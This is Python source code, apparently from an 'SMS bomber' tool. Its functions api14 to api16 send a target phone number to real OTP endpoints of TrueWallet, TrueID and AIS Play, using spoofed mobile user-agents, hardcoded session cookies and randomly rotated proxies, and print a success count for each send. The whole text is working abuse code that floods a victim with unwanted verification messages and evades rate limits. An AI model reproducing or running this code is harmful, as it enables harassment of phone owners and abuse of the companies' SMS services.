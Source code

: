 def api14(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://pygw.csne.co.th/api/gateway/truewalletRequestOtp",headers={"content-type": "application/x-www-form-urlencoded; charset=UTF-8","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","cookie": "pygw_csne_coth=91207b7404b2c71edd9db8c43c6d18c23949f5ea"},data=f"transactionId=b05a66a7e9d0930cbda4d78b351ea6f7&phone={phone}",proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api15(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://vaccine.trueid.net/vacc-verify/api/getotp",headers={"user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","content-type": "application/json;charset=UTF-8","accept": "application/json, text/plain, */*","cookie": "_gcl_au=1.1.628507904.1657519113;_cbclose=1;_cbclose26068=1;_uid26068=51BC4E60.1;_ctout26068=1;verify=test;_ga=GA1.2.682897436.1657519114;_gid=GA1.2.1721036016.1657519114;_gat_UA-86733131-1=1;_fbp=fb.1.1657519114976.1588263006;afUserId=64e5ba75-c9e2-4e45-aa62-7f5318ec6d9c-p;AF_SYNC=1657519116965;_ga_R05PJC3ZG8=GS1.1.1657519113.1.1.1657519130.43;OptanonAlertBoxClosed=2022-07-11T05:58:54.186Z;OptanonConsent=isIABGlobal=false&datestamp=Mon+Jul+11+2022+12%3A58%3A54+GMT%2B0700+(%E0%B9%80%E0%B8%A7%E0%B8%A5%E0%B8%B2%E0%B8%AD%E0%B8%B4%E0%B8%99%E0%B9%82%E0%B8%94%E0%B8%88%E0%B8%B5%E0%B8%99)&version=6.13.0&hosts=&landingPath=NotLandingPage&groups=C0001%3A1%2CC0002%3A1%2CC0003%3A1%2CC0004%3A1%2CC0005%3A1"},json={"msisdn":phone,"function":"enroll"},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api16(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	session = Session()
	ReqTOKEN = session.get("https://srfng.ais.co.th/Lt6YyRR2Vvz%2B%2F6MNG9xQvVTU0rmMQ5snCwKRaK6rpTruhM%2BDAzuhRQ%3D%3D?redirect_uri=https%3A%2F%2Faisplay.ais.co.th%2Fportal%2Fcallback%2Ffungus%2Fany&httpGenerate=generated", headers={"User-Agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36"}).text
	r = session.post("https://srfng.ais.co.th/login/sendOneTimePW", data=f"msisdn=66{phone[1:]}&serviceId=AISPlay&accountType=all&otpChannel=sms",headers={"User-Agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "authorization": f'''Bearer {search("""<input type="hidden" id='token' value="(.*)">""", ReqTOKEN).group(1)}'''},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	